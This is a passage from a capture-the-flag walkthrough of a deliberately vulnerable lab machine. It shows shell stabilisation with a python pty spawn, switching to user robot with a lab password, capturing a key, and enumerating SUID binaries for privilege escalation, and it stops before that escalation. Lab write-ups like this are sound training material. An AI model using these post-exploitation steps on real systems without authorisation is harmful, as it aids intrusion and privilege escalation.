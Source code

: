 Now what I want to try to do is go back to our session and do su robot; 
```
$ su robot  
su: must be run from a terminal  
```
What?!?!? We are **IN A TERMINAL!**. But do not fear. If we recall our memory from the Wakanda CTF, we remember that we can create a Python spawn! Let's do that now;  
```
$ python -c 'import pty; pty.spawn("/bin/bash")'  
daemon@linux:/home/robot$   
```
And now we have a shell access!  
Now, let's try to change the user to robot like so;  
```
$ su robot  
su robot
Password: abcdefghijklmnopqrstuvwxyz
robot@linux:~$ 
```
And now we have logged into the server with user Robot!  
**CONGRATS ON MAKING IT THIS FAR!**  
  
Now, if we do;  
```
$ cat key-2-of-3.txt  
822c73956184f694993bede3eb39f959  
```
We have our second key!  
You are really rocking this session right now! Keep grinding my friend!  
  
Now, what I would like to do is get access to the root. Why? We need to get the root access in order to get our root.txt and complete this CTF!  
  
  
## Suid Privilege Escalation  
```
$ sudo -l  

[sudo] password for robot: abcdefghijklmnopqrstuvwxyz

Sorry, user robot may not run sudo on linux.
```
What I want to do is discover what directories & executables we can run, so take note of this next command to help us figure that out;  
```
$ find / -pem -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```
Okay, so we have a few directories we can look into!  
That command above, will help us find binaries that have suid bit set (root) permissions!  
